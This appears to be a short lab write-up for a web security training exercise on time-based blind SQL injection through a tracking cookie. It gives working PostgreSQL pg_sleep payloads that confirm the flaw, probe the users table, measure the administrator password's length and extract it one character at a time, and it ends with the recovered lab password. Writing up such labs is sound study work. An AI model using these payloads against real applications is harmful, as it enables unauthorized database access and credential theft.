 # Lab 14 - Blind SQLi with time delays and informational retrieval

> ### Vulnerable parameter - tracking cookie

### End Goals:
- Exploit time-based blind SQLi to output the administrator password
- Login as the administrator user

## Analysis:

1) Confirm that the parameter is vulnerable to SQLi

`' || pg_sleep(10)--`

2) Confirm that the users table exists in the database

`' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--`

`' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--`

3) Enumerate the password length

`' || (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)--`
-> length of password is 20 characters

4) Enumerate the administrator password

`' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--`

13ipnob7l2dkjp3drryy


